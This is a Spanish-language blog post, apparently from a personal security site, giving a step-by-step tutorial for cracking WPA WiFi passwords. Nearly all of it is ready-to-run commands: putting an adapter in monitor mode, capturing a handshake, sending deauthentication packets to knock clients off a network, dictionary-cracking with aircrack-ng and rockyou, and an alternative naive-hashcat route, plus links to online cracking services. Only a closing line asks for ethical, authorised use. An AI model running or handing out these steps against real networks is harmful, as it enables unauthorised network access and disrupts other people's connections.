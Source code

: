 ```yaml
---
layout: single
title: "WiFi Hacking: Fuerza Bruta y Métodos Adicionales"
excerpt: "En este artículo se explica cómo realizar un ataque de fuerza bruta a una red WiFi utilizando herramientas como Aircrack-ng, y se presentan métodos adicionales para obtener contraseñas."
date: 2025-04-02
classes: wide
header:
  teaser: /assets/images/ruyztz/wifi-hacking.png
  teaser_home_page: true
categories:
  - Seguridad
  - Hacking
tags:
  - WiFi
  - Hacking
  - Seguridad
  - Aircrack-ng
---
```


# Hacking WiFi: Fuerza Bruta y Métodos Adicionales

Este artículo detalla los pasos básicos para hackear una red WiFi mediante un ataque de fuerza bruta utilizando **Aircrack-ng** y describe métodos adicionales para obtener la contraseña.

## Pasos para hackear una red WiFi

1. **Conectar la antena.**

2. **Instalar Aircrack-ng:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo apt install aircrack-ng</code></pre>
</div>

3. **Cambiar a usuario root:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo su</code></pre>
</div>

4. **Verificar y matar procesos que puedan interferir con la antena:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng check 
airmon-ng check kill</code></pre>
</div>

5. **Iniciar la antena en modo monitor:**  
   (Utiliza el nombre de la antena que se muestra con el comando `ifconfig`.)

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng start nombreAntena</code></pre>
</div>

6. **Escanear las redes disponibles:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airodump-ng nombreAntenaModoMonitor</code></pre>
</div>

7. **Identificar el BSSID** de la red a la que se quiere acceder.

8. **Capturar paquetes para obtener el handshake:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airodump-ng -c NumeroCanalDeLaRed --bssid bssid -w nombreArchivosCaps nombreAntenaModoMonitor</code></pre>
</div>

9. **Enviar paquetes de desautenticación:**  
   Mantén abierto el terminal y ejecuta:

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo aireplay-ng -0 9 -a bssid -c estaciónDesautenticada nombreAntenaModoMonitor</code></pre>
</div>

10. **Realizar el ataque de fuerza bruta:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>aircrack-ng -b handshakeObtenido -w rockyou.txt archivo.cap</code></pre>
</div>

11. **Detener la antena en modo monitor:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng stop nombreAntena</code></pre>
</div>

## Métodos adicionales para obtener la contraseña

Si cuentas con un ordenador con Linux nativo, puedes seguir estos pasos:

1. **Clonar el repositorio de naive-hashcat:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>git clone https://github.com/brannondorsey/naive-hashcat</code></pre>
</div>

2. **Compilar el código en el directorio `src`:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>cd naive-hashcat/src
make</code></pre>
</div>

3. **Convertir el archivo `.cap` a `.hccapx`:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>cap2hccapx.bin archivo.cap archivoHash.hccapx</code></pre>
</div>

4. **Descargar el diccionario rockyou:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>curl -LO https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt</code></pre>
</div>

5. **Ejecutar naive-hashcat:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>HASH_FILE=archivoHash.hccapx POT_FILE=archivo.pot HASH_TYPE=2500 ./naive-hashcat.sh</code></pre>
</div>

## Alternativas y Recursos

- **Alternativas en línea:**
  - [Online Hash Crack](https://www.onlinehashcrack.com/wifi-wpa-rsna-psk-crack.php)
  - [GPU Hash](https://gpuhash.me/)

- **Más Información:**
  Consulta el repositorio [wifi-cracking](https://github.com/brannondorsey/wifi-cracking) para obtener más detalles y métodos adicionales.

> **Importante:** Estos conocimientos deben utilizarse de forma ética y legal. Realiza pruebas únicamente en entornos controlados o en redes sobre las que tengas autorización expresa.
